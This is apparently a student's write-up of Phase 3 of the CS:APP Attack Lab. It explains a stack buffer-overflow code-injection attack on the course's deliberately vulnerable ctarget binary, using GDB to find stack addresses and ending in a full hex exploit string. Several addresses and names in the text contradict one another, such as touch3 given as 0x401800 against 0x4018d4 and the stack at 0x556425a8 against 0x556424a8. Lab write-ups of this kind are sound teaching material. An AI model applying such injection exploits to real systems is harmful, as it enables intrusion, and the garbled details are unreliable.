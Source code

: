 # Phase 3

## Attack Lab Spec

Phase 3 also involves a code injection attack, but passing a string as argument.
Within the file ctarget there is code for functions hexmatch and touch3 having the following C
representations:
```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
  char cbuf\[110];
  /* Make position of check string unpredictable */
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */
  if (hexmatch(cookie, sval)) {
    printf("Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  } else {
    printf("Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```
Your task is to get `CTARGET` to execute the code for `touch3` rather than returning to `test`. You must
make it appear to `touch3` as if you have passed a string representation of your cookie as its argument.

**Some Advice:**

• You will need to include a string representation of your cookie in your exploit string. The string should consist of the eight hexadecimal digits (ordered from most to least significant)
without a leading “0x.”  
• Recall that a string is represented in C as a sequence of bytes followed by a byte with value 0. Type “man ascii” on any Linux machine to see the byte representations of the characters you need.  
• Your injected code should set register %rdi to the address of this string.  
• When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where
you place the string representation of your cookie.

Among other things the following image was provided. It is also useful to note that c3 is the hex encoding for the ret instruction.
![image](https://github.com/Motik7/AttackLab-Writeup/assets/60900283/5eb247a9-f732-44bc-9ae4-75f597f749e4)

## Analysis

It's clear that we need to get to `touc32` from `getbuf`. Looking at `getbuf` in cobjectdum we see the following code:  
```
00000000004017be <getbuf>:                        
4017be:	48 83 ec 18          	sub    $0x18,%rsp     
4017c2:	48 89 e7             	mov    %rsp,%rdi      
4017c5:	e8 30 02 00 00       	callq  4019fa <Gets>  
4017ca:	b8 01 00 00 00       	mov    $0x1,%eax      
4017cf:	48 83 c4 18          	add    $0x18,%rsp     
4017d3:	c3                   	retq                
```

Looking at the code, we see the following things happen. We put 0x18 bytes of storage on the stack, and then put our stack pointer into `%rdi`. The function `Gets` is then called which we can assume
inputs whatever we enter into the stack. This opens up the opportunity for code injection. For phase 3, this is injecting our cookie as a string into `%rdi` and then calling `touch3`. Therefore, if we can inject 0x18 bytes of random values and then the address of `touch3` when `retq` attempts to return to the address pointed to by rsp, it'll be our address. Looking again through the object dumb for `touch3` we see  
`00000000004018d4 <touch3>`  
which tells us that our `touch3` function is at address 0x401800. We remember that x86-64 operates on little endian, and thus in our string the address must be formatted correctly.

However, before we can enter `touch3` we first must put our cookie as a string into register `%rdi`. To do this, we'll have to take our return address into some code that we'll write to put the cookie into `%rdi`. We can accomplish this by writing code within the 0x18 initial string bytes, and then returning within it which will begin running the code. However, we need to know where that is. To accomplish that goal, we'll use GDB on ctarget. 

### GDB Analysis

#### Finding `%rsp`

Before that, we need to know where to set certain breakpoints to be able to inspect our code well. A valuable place to put the breakpoint would be `getbuf` since ultimately it is where we do our injection, and will show us where the stack pointer `%rsp` is at any moment we choose to see. GDB allows us to simply put breakpoints at functions using `b <function_name>` so using `b getbuf` will put a breakpoint at the right spot. We then run with `r` and for now we won't include any argument. We hit the breakpoint and use `i r` to show information regarding the registers. We see that  
`rsp            0x556424c0          0x556424c0`  
which gives us a good idea of where `%rsp` is, however it's not the one that we want. At this point, we haven't decremented the stack, and while we could manually deduct 0x18 from the value we see, it's easier to run `si` and let the code do it for us. Thus, we see  
`rsp            0x556424a8          0x556424a8`  
From this, we now know where our string starts, and where we could potentially inject code. We have confirmation this does not change between runs, so we can safely continuously use this.

## Solution

Now that we have all of the information we need, we can put it all together. The plan of attack is to inject two pieces of code, a `pop rdi` and a `ret`. Referring to the info provded above, these are `5f` and `c3` respectively. We still need to pad out the rest of the 0x18 so we are now at  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`  
Now we need to go to our injected code. From our GDB analysis, we see that the string starts at 0x556425a8. Therefore we add this in overwriting the return address of `getbuf`. Using little endian notation as is required, this yields  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55`  
However, we are still not done. Consider that `pop rdi` pops whatever `%rsp` points to and puts it into `%rdi`. The `retq` in `getbuf` will move `%rsp` past the return address we injected. We therefore need to append what we want in `%rdi` after our return address. We look in cookie.txt to see that our cookie is 0x32bf3fc2. Therefore, following little endian protocol we append it to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 c2 3f bf 32`  
This will not work. The reason for this is that ret reads 8 bytes and we have only provided 4. This will not work as intended, so we pad it out to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 c2 3f bf 32`  
This also does not work but for a different reason. A string is just a pointer to a certain area of memory that contains the string. Therefore, `%rdi` needs to hold a memory address, not our actual string. To accomplish this I put the string later in the buffer and then did some hex math to figure out where it is in memory. I then converted the cookie into hex since that's what `hexmatch` wants yielding a final result of  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 e0 24 64 55 00 00 00 00 d4 18 40 00 00 00 00 00 00 00 00 00 00 00 00 00 33 32 62 66 33 66 63 32 00 00 00 00`

